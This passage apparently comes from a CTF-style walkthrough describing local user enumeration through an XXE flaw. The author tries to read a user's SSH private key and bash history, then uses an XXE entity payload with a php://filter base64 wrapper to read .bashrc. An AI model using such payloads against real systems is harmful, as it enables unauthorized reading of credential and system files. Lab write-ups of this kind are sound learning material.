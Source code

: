 ![img11](screenshots/img12.png)

### Local User Enumeration

**using default ssh keys location in our xxe request**

```
/home/saket/.ssh/id_rsa
```

- We've found nothing in response, let's try to fetch some other files, like **.bash_history**

```
/home/saket/.bash_history
```

- It's showing nothing also this time, so I've modified the way of requesting through xxe, instead of it using the base64 encoded payload there:

```
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/home/saket/.bashrc"> ]>
```

- And it returns the output this time!